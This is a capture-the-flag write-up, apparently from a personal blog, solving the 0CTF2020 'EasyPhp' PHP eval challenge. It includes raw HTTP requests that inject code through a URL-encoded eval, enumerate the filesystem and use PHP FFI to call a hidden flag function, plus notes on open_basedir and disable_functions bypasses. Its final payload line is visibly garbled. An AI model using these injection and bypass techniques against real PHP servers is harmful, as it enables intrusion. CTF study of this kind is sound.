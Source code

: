 ```yaml
---
layout: post
author: pwnk1dd13
---
```


* * *

Recently, I got opportunity to participate in **0CTF2020 Quals**. It was really a good CTF focused on Intermediate to Advanced participants. I was only able to solve only one PHP challenge during CTF named `EasyPhp`.

## Recon >
First things first, Always Recon the chall. So, on visiting the Provided URL [http://pwnable.org:19260/](http://pwnable.org:19260/) for the challenge, We get this piece of php code

```php
<?php
    if (isset($_GET['rh'])) {
        eval($_GET['rh']);
    } else {
        show_source(__FILE__);
    }
?>
```

Now, On looking at the source code, It immediately clicked that there is some sort of Code Injection using parameter `rh`. On trying commands like ``` system, exec, popen```, We didn't get anything executed.So, we must have to get our hands on the internals.

Now, we check the settings of back-end php application, For that we have to take a look at `phpinfo();`. On Using phpinfo(); as param in var rh,
[http://pwnable.org:19260/rh=phpinfo();](https://pwnk1dd13.github.io/assets/CTF/php-0ctf2020.html)

We get to know that dangerous functions that we tried to use before were disabled, Have a look at `disabled_functions` 
```
set_time_limit,ini_set,pcntl_alarm,pcntl_fork,pcntl_waitpid,pcntl_wait,pcntl_wifexited,pcntl_wifstopped,pcntl_wifsignaled,pcntl_wifcontinued,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_get_handler,pcntl_signal_dispatch,pcntl_get_last_error,pcntl_strerror,pcntl_sigprocmask,pcntl_sigwaitinfo,pcntl_sigtimedwait,pcntl_exec,pcntl_getpriority,pcntl_setpriority,pcntl_async_signals,system,exec,shell_exec,popen,proc_open,passthru,symlink,link,syslog,imap_open,ld,mail,putenv,error_log,d
```
Hmm! So, We need to find some other ways. Doing a bit of research and reading writeups , we get know a lot about php exploits. Let's discuss various strategies we thought to exploit it.

## Strategy >

Following exploits came up : 

> PHP-FPM
>
> Bypass open_basedir()
>
> FFI
>
> glob + DirectoryIterator  : ~~This is not the exploit~~

Now, I'll explain a bit of above and unintended solutions that came during CTF in the later section `Conclusion`, Let's first discuss how I solved this challenge.

## Exploit >

We first glob + DirectoryIerator to literally scan the whole server, After doing this, we found interesting things in `/` Directory with this `POST`request:
```
POST /?rh=%40%65%76%61%6c%28%24%5f%50%4f%53%54%5b%67%6d%6c%5d%29%3b HTTP/1.1
Host: pwnable.org:19260
User-Agent: User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US;q=0.5,en;q=0.3
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 91

gml=$a=new DirectoryIterator("glob:///*");foreach($a as $f){echo($f->__toString().' ');};
```

```
bin dev etc flag.h flag.so home lib media mnt opt proc root run sbin srv start.sh sys tmp usr var
```
Cool!. So ,we find our targets `flag.h` and `flag,so`. `flag.so` is Dynamically Linked Shared Object and is most probably used by `flag.h` . So, we need to figure out the function called by `flag.h` .Now, to exploit further I used the evil functionality ``FFI`` which was enabled on server as per phpinfo(). For more information about this, visit Official [Php Docs](https://www.php.net/manual/en/class.ffi.php).

Now, We use `FFI` to call the method in `flag.so`.So, use `FFI` to load `flag.h`. Let's try with this `POST` request:
```
POST /?rh=%40%65%76%61%6c%28%24%5f%50%4f%53%54%5b%67%6d%6c%5d%29%3b HTTP/1.1
Host: pwnable.org:19260
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 39

gml=$ffi = FFI::load("/flag.h");echo 1;
```
We don't get a 500, indicates that loading through `FFI` works and it's successfully loaded. But we don't know what method there is, what the method name is, and can't read flag.h, this is the point wher e I got stuck. 

But reading more about FFI exploits, reveal that we can leak memory to know the method name and then call it to get the `flag`. I really not noted down, from where I got the script to leak method, Shame on me. But this guy also published writeup for this same challenge and described the process of leaking memory. He has also published writeups for other challenges. So, do checkout. Link to the [Writeup](https://www.4hou.com/posts/p7BQ).Now ,we have the method to be called `flag_fUn3t1on_fFi();`.

Now,just post this request to get the flag :
```
gml=$ffi = FFI : : load( " / flag. h" ) ; : : string($ffi->f1ag_fUn3t10n_fF1()));

```
We get our flag as response :
```
HTTP/I.1 200 0K
Server: nginx
Date: Mon, 29 Jun 2020 11:01 GMT
Content-Type: text/html; charset=UTF-8
Connection: close
X-Powered-By: PHP/7.4.5
Content-Length: 42

string(27) "flag{FFi_1s_qu1T3_DANg10uS}"
```
Hurray! We got the flag `flag{FFi_1s_qu1T3_DANg10uS}`

## Conclusion >

The intended solutions of this challenge were :

> PHP-FPM
>
> FFI

We done this through FFI, but we can also do this through `php-Fastcgi/php-fpm`. You can read more about `PHP-FPM` [here](https://www.php.net/manual/en/install.fpm.php). The way to exploit via `fast-cgi` is to first find the sock file to connect .i.e `/var/run/php-fpm.sock` using `glob+DirectoryIterator`
. Now, You can forge `fastcgi` to bypass some security policies like `open_basedir` by using `PHP_VALUE` to change global php settings like `open_basedir`. In our case, primary target is to `open-basedir` so that we can read files in root folder. For Script and more info, [Visit](https://github.com/balsn/ctf_writeup/tree/master/20190323-0ctf_tctf2019quals#wallbreaker-easy). I have added file containing all the recon data [here](https://pwnk1dd13.github.io/assets/CTF/easyphp-0ctf2020.txt).

> Unintended solutions :
As the organizers had setup this challenge in a shared php environment. So, if someone modifies `open_basedir` restriction from `/var/www/html` to `/`. Then, It gets modified for all participants and hence, anybody can directly use `file_get_contents` to get `flag.so` where the flag is in plain-text.

## Learning >
Other Exploits :
 > `LD_PRELOAD` if `putenv` is not disabled, can be used to exploit the server.
 

 > `ini_set` if not disabled, can be used to change `open_basedir` and read contents from any directory, here, root `/` directory.

 >`ImageMagick` ,a php image library if used and enabled, can also be used to bypass `open_basedir` restriction.

## Feedback >

Thanks for reading and visiting my blog. Please don't mind by bad English or grammatical errors. Please do comments if You find it interesting or something went wrong!. I read all the comments.
Thanks Again! Have a good Day!


* * * 